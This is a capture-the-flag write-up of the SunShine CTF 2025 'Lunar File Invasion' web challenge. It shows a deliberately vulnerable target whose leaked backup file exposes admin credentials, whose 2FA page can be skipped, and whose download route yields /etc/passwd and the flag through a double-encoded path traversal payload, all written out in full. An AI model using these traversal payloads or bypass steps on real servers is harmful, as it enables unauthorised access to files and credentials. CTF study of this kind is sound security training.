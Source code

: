 # Lunar File Invasion — SunShine CTF 2025

> **Room / Challenge:** Lunar File Invasion (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** SunShine CTF 2025
- **Challenge:** Lunar File Invasion (web)
- **Target / URL:** `https://asteroid.sunshinectf.games`
- **Difficulty:** `Medium / Hard`
- **Points:** `463`
- **Date:** `30-09-2025`

---

## Goal

We have to get the flag by getting admin authentication and leveraging vulnerability.

## My Solution

There are no routes in the home page that we can visit normally.

![Guide image](../screenshots/lunar-file-invasion-1.png)

Visit `/robots.txt` we can see the content:

```
# don't need web scrapers scraping these sensitive files:

Disallow: /.gitignore_test
Disallow: /login
Disallow: /admin/dashboard
Disallow: /2FA
```

The website requires us to login through login form first, then pass 2FA in order to go to admin dashboard.

![Guide image](../screenshots/lunar-file-invasion-2.png)

Visit `/.gitignore_test`:

```
# this tells the git CLI to ignore these files so they're not pushed to the repos by mistake.
# this is because Muhammad noticed there were temporary files being stored on the disk when being edited
# something about EMACs.

# From MUHAMMAD: please make sure to name this .gitignore or it will not work !!!!

# static files are stored in the /static directory.
/index/static/login.html~
/index/static/index.html~
/index/static/error.html~
```

Access `/index/static/login.html~` and you can get credentials:

```javascript
<input value="admin@lunarfiles.muhammadali" type="text" name="email">
<input value="jEJ&(32)DMC<!*###" type="text" name="password">
```

Take this and login to the CMS, you will be redirected to 2FA page, however just simply go to `/admin/dashboard`, you will be redirected to `/admin/help`.

![Guide image](../screenshots/lunar-file-invasion-3.png)

Visit **Manage Files**, you can use `View` functionality to view secret files.

![Guide image](../screenshots/lunar-file-invasion-4.png)

It gives us hints to access to `/etc/passwd` file, this **View** functionality use route `/admin/download` to download files.

I tried several decoding and encoding with `../../` and `../../../`, also `%252E%252Fsecret1%252Etxt`.

You can try visit `https://asteroid.sunshinectf.games/admin/download/%252E%252Fsecret1%252Etxt` to download `secret1.txt` file.

After much more trial and reseaching, I achieve success downloading the `/etc/passwd` file through this payload:

```
%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252Fetc%252Fpasswd
```

`/etc/passwd` content:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
unprivileged:x:999:999::/home/unprivileged:/bin/bash
```

However, until now, I can still not get the flag and don't know where the flag is. I use ChatGPT to suggest me where the flag can locate at :)).

I tried to find `app.py` with several tests. I find the flag located at `./FLAG/flag.txt`.

```python
with open("./FLAG/flag.txt", "r") as f:
    FLAG = f.read()
```

Visit `/admin/download/%252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252FFLAG/flag.txt` to get the flag.

Flag is: `sun{lfi_blacklists_ar3_sOo0o_2O16_8373uhdjehdugyedy89eudioje}`
